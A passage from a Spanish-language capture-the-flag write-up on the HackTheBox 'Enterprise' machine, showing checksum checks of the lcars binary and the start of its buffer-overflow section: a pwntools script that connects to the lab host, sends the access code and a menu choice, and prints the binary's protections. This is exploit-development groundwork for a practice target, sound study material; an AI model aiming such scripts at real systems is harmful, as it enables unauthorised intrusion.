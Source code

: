```bash
www-data@enterprise:/bin$ md5sum lcars 
cf72dd251d6fee25e638e9b8be1f8dd3  lcars
```

```bash
❭ md5sum lcars
cf72dd251d6fee25e638e9b8be1f8dd3  lcars
```

Listo, todo correcto, a divertirnos (:

...

### Buffer Overflow

Nos copiaremos la estructura de un programa que le vi a [dplastico](https://www.youtube.com/user/dplastico) para jugar con **gdb**, con el recurso remoto y también para movernos localmente.

Inicialmente le enviaremos todos los datos que recibe el programa:

```py
#!/usr/bin/python3

import sys
from pwn import *

elf = context.binary = ELF(sys.argv[1])
context.terminal = ['tmux', 'splitw', '-h']

def start():
    if args.GDB:
        return gdb.debug(sys.argv[1])
    if args.REMOTE:
        return remote('10.10.10.61', 32182)
    else:
        return process(sys.argv[1])

r = start()
# ======================= Aca ta la magia ========================

r.sendlineafter("Enter Bridge Access Code:", "picarda1")
r.sendlineafter("Waiting for input:", "4")
print(r.recv())

# ===================== Aca termina la magia ====================
r.interactive()
```

Ejecutamos:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 898435
b' \n'
[*] Switching to interactive mode
Disable Security Force Fields
Enter Security Override:
$
```
